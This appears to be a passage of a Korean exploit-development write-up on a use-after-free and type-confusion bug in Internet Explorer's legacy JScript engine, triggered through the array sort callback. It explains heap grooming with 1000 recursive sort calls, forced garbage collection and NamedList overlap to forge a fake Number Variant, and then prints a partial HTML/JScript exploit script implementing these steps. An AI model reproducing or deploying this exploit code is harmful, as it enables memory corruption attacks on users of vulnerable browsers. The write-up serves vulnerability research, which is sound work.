  매개변수가 가리키고 있는 해제된 Variant 위치에 새로 할당한 NamedList가 위치해야한다. 한 번의 Use After Free로는 가능성이 낮다. Exploit의 신뢰성을 높이기 위해 재귀함수를 이용하여 JsArrayFunctionHeapSort 함수를 1000번 호출한다. 콜백함수가 1000번 호출되면, 매개변수를 1000번 사용할 수 있다. Variant를 1000개 생성한 후, 재귀함수에서 각 매개변수에 대입한다. 각 매개변수는 전역변수에 저장해두고, 마지막 재귀함수에서 Variant를 해제하고 GC를 호출하여 취약점을 발생시킨다. 해제된 Variant 위치에 공격자가 컨트롤한 데이터를 위치시키기 위해 NamedList를 다수 생성한다.

 Number Variant의 종류는 0x0003 이다. NamedList를 이용하여 가짜 Number Variant를 만든다. NamedList에서 생성하는 가짜 Variant는 해제되기 전 GcBlock에 위치한 Variant와 동일한 위치에 적재되어야 한다. NamedList는 GcBlock과 구조가 다르므로 패딩을 주어 위치를 맞춘다.

Type Confusion을 이용하여 가짜 Number를 구현한 코드는 다음과 같다.



```html
<meta http-equiv="X-UA-Compatible" content="IE=8"></meta>
<script language="Jscript.Encode">
    var arr_spray = new Array();
    var arr_uaf = new Array();
    var arr_overlap = new Array();
 
    var arr_ref = new Array();
    var arr_sort = new Array();
 
    var callback_idx = 0;
    var maxnum = 1000;
 
    var name = "\u4141\u4141"; // padding
    while (name.length != 0x16A) {
        name += "\u0003\u0000\u0000\u0000\u1337\u0000\u0000\u0000"; // 0x0003 is Number
    }
    while (name.length != 0x178) {
        name += "\u4141";
    }
    
    function fncCompare(arg1, arg2) {
        if (callback_idx < (maxnum-1)) {
            arg1 = arr_uaf[callback_idx];
            callback_idx = callback_idx + 1;
            arr_sort[callback_idx].sort(fncCompare);
            arr_ref.push(arg1);
 
        } else {
 
            // for GcBlockFactory::FreeBlk
            for (var i = 0; i < 50 * 100; i++) {
                arr_spray[i] = new Object();
            }
            for (var i = 0; i < 50 * 100; i++) {
                arr_spray[i] = null;
            }
            CollectGarbage();
 
            // free
            for (var i = 0; i < maxnum; i++) {
                arr_uaf[i] = null;
            }
            CollectGarbage();
 
            // overlap
            for (var i = 0; i < 0x1000; i++) {
                arr_overlap[i][name] = 1;
            }
        }
 
        return 1;
    }
 
```